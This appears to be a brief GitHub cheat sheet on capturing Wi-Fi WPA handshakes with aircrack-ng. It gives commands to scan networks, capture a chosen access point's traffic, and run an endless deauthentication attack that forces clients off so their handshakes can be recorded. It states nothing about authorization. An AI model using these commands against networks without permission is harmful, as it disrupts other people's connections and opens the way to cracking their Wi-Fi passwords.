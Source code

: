 # Crack and Capture handshakes

## Installation

```
sudo apt install aircrack-ng
```

---

## Scan for nearby networks

```
sudo airodump-ng wlan0
```

## Scan a specific network

```
sudo airodump-ng wlan0 -d <AP BSSID>
```

### Explanation
`AP BSSID` - The AP's BSSID<br>
`wlan0` - Your wireless interface

## Capture packets being sent via a specific AP (Access Point)

```
sudo airodump-ng -w <file name> -c <channel> --bssid <AP BSSID> wlan0
```

### Explanation
`file name` - The name file to store the captured packets in<br>
`channel` - The channel the AP is listening on<br>
`AP BSSID` - The AP's BSSID<br>
`wlan0` - Your wireless interface

## Deauthenticate clients on a network

```
sudo aireplay-ng --deauth 0 -a <AP BSSID> wlan0
```

### Explanation
`deauth` - Run a deauth attack - specify amount of deauth packets to send, 0 = inf<br>
`AP BSSID` - The AP's BSSID<br>
`wlan0` - Your wireless interface

### Known errors
May state that the wireless interface is not on the same channel as the AP, a solution is to change the channel by entering the command:

```
sudo iwconfig wlan0 channel 1
```
Note: Change `wlan0` to your own interface